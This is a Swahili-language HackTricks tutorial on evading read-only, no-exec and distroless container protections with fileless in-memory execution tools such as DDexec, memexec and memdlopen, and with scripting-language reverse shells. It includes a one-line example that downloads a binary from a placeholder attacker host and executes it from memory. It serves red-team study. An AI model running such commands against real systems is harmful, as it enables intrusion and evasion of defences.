 # Kudukua ulinzi wa FS: soma-tu / hakuna-kutekeleza / Distroless

<details>

<summary><strong>Jifunze kudukua AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**swag rasmi wa PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za kudukua kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ikiwa una nia ya **kazi ya kudukua** na kudukua yasiyodukuliwa - **tunakupa kazi!** (_uwezo wa kuandika na kuzungumza Kipolishi kwa ufasaha unahitajika_).

{% embed url="https://www.stmcyber.com/careers" %}

## Video

Katika video zifuatazo unaweza kupata mbinu zilizotajwa kwenye ukurasa huu zilizoelezwa kwa undani zaidi:

* [**DEF CON 31 - Kuchunguza Ubadilishaji wa Kumbukumbu ya Linux kwa Siri na Kuepuka**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**Mashambulizi ya siri na DDexec-ng & in-memory dlopen() - Kufuatilia HackTricks 2023**](https://www.youtube.com/watch?v=VM\_gjjiARaU)

## Skena ya soma-tu / hakuna-kutekeleza

Inazidi kuwa kawaida kupata mashine za linux zilizomwekwa na **ulinzi wa mfumo wa faili wa soma-tu (ro)**, hasa katika vyombo. Hii ni kwa sababu ya kuendesha chombo na mfumo wa faili wa soma-tu ni rahisi kama kuweka **`readOnlyRootFilesystem: true`** katika `securitycontext`:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

Hata hivyo, hata kama mfumo wa faili umewekwa kama ro, **`/dev/shm`** bado itakuwa inayoweza kuandikwa, hivyo ni uwongo hatuwezi kuandika chochote kwenye diski. Walakini, folda hii itakuwa **imefungwa na ulinzi wa hakuna-kutekeleza**, hivyo ikiwa unapakua binary hapa **hutaweza kuitekeleza**.

{% hint style="warning" %}
Kutoka mtazamo wa timu nyekundu, hii inafanya **kuwa ngumu kupakua na kutekeleza** binaries ambazo hazipo kwenye mfumo tayari (kama backdoors au wachunguzi kama `kubectl`).
{% endhint %}

## Kudukua Rahisi: Scripts

Tafadhali kumbuka nilitaja binaries, unaweza **kutekeleza skripti yoyote** ikiwa mkalimani yupo ndani ya chombo, kama **skripti ya shell** ikiwa `sh` iko au **skripti ya python** ikiwa `python` imefungwa.

Hata hivyo, hii pekee haitoshi kutekeleza backdoor yako ya binary au zana nyingine za binary unazoweza kuhitaji kutekeleza.

## Kudukua Kumbukumbu

Ikiwa unataka kutekeleza binary lakini mfumo wa faili hauruhusu hivyo, njia bora ya kufanya hivyo ni kwa **kutekeleza kutoka kumbukumbu**, kwani **ulinzi hauwafai huko**.

### Kudukua FD + kutekeleza syscall

Ikiwa una injini za skripti zenye nguvu ndani ya chombo, kama **Python**, **Perl**, au **Ruby** unaweza kupakua binary kutekeleza kutoka kumbukumbu, kuhifadhi kwenye maelezo ya faili ya kumbukumbu (`create_memfd` syscall), ambayo haitalindwa na ulinzi huo kisha itekeleze **syscall ya `exec`** ikionyesha **fd kama faili ya kutekeleza**.

Kwa hili unaweza kutumia mradi [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec). Unaweza kumpitisha binary na itazalisha skripti katika lugha iliyotajwa na **binary iliyosongwa na kubadilishwa kuwa b64** na maagizo ya **kudecode na kufuta** katika **fd** iliyoundwa kwa kuita `create_memfd` syscall na wito wa **syscall ya exec** kuikimbia.

{% hint style="warning" %}
Hii haitafanya kazi katika lugha zingine za skripti kama PHP au Node kwa sababu hawana njia ya kawaida ya kuita **syscall za moja kwa moja** kutoka kwa skripti, hivyo haiwezekani kuita `create_memfd` kuunda **fd ya kumbukumbu** kuhifadhi binary.

Zaidi ya hayo, kuunda **fd ya kawaida** na faili katika `/dev/shm` haitafanya kazi, kwa sababu hautaruhusiwa kuikimbia kwa sababu **ulinzi wa hakuna-kutekeleza** utatumika.
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec) ni mbinu inayokuwezesha **kurekebisha kumbukumbu ya mchakato wako mwenyewe** kwa kubadilisha **`/proc/self/mem`** yake.

Hivyo, **kudhibiti kanuni ya mkusanyiko** inayotekelezwa na mchakato, unaweza kuandika **shellcode** na "kubadilisha" mchakato huo kutekeleza **kanuni yoyote ya kupindukia**.

{% hint style="success" %}
**DDexec / EverythingExec** itakuruhusu kupakia na **kutekeleza** shellcode yako mwenyewe au **binary yoyote** kutoka **kumbukumbu**.
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
Kwa maelezo zaidi kuhusu hii technique angalia Github au:

{% content-ref url="ddexec.md" %}
[ddexec.md](ddexec.md)
{% endcontent-ref %}

### MemExec

[**Memexec**](https://github.com/arget13/memexec) ni hatua ya asili ya DDexec. Ni **DDexec shellcode demonised**, hivyo kila wakati unapotaka **kuendesha binary tofauti** hauitaji kuzindua upya DDexec, unaweza tu kuendesha shellcode ya memexec kupitia technique ya DDexec na kisha **kuwasiliana na huyu deamon ili kupitisha binaries mpya za kupakia na kuendesha**.

Unaweza kupata mfano jinsi ya kutumia **memexec kuendesha binaries kutoka kwa PHP reverse shell** katika [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php).

### Memdlopen

Kwa lengo kama la DDexec, technique ya [**memdlopen**](https://github.com/arget13/memdlopen) inaruhusu njia **rahisi ya kupakia binaries** kwenye kumbukumbu kwa baadaye kuziendesha. Inaweza kuruhusu hata kupakia binaries zenye mahitaji.

## Kupita Kizuizi cha Distroless

### Distroless ni nini

Vyombo vya distroless vinavyo **vipengele vichache sana vinavyohitajika kuendesha programu au huduma maalum**, kama maktaba na mahitaji ya runtime, lakini vinaweka pembeni vipengele vikubwa kama meneja wa pakiti, shell, au zana za mfumo.

Lengo la vyombo vya distroless ni **kupunguza eneo la mashambulizi ya vyombo kwa kutimua vipengele visivyo vya lazima** na kupunguza idadi ya mapungufu yanayoweza kutumiwa.

### Reverse Shell

Katika chombo cha distroless unaweza **hata usipate `sh` au `bash`** kupata shell ya kawaida. Pia hutapata binaries kama `ls`, `whoami`, `id`... kila kitu ambacho kawaida unakimbia kwenye mfumo.

{% hint style="warning" %}
Hivyo, **hutaweza** kupata **reverse shell** au **kuorodhesha** mfumo kama kawaida.
{% endhint %}

Hata hivyo, ikiwa chombo kilichoharibiwa kinakimbia kwa mfano wavuti ya flask, basi python imewekwa, na hivyo unaweza kupata **Python reverse shell**. Ikiwa inakimbia node, unaweza kupata Node rev shell, na vivyo hivyo na zaidi ya **lugha ya scripting**.

{% hint style="success" %}
Kwa kutumia lugha ya scripting unaweza **kuorodhesha** mfumo kwa kutumia uwezo wa lugha.
{% endhint %}

Ikiwa hakuna ulinzi wa **`read-only/no-exec`** unaweza kutumia reverse shell yako kudanganya mfumo wa faili na **kuziendesha**.

{% hint style="success" %}
Hata hivyo, katika aina hii ya vyombo ulinzi huu kawaida utakuwepo, lakini unaweza kutumia **techniques za awali za utekelezaji wa kumbukumbu kuzipita**.
{% endhint %}

Unaweza kupata **mifano** jinsi ya **kutumia baadhi ya mapungufu ya RCE** kupata **reverse shells** za lugha za scripting na kuziendesha binaries kutoka kumbukumbu katika [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE).

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ikiwa una nia ya **kazi ya udukuzi** na kudukua yasiyoweza kudukuliwa - **tunahitaji wewe!** (_ujuzi wa Kipolishi ulioandikwa na kuzungumzwa unahitajika_).

{% embed url="https://www.stmcyber.com/careers" %}

<details>

<summary><strong>Jifunze udukuzi wa AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJISAJILI**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
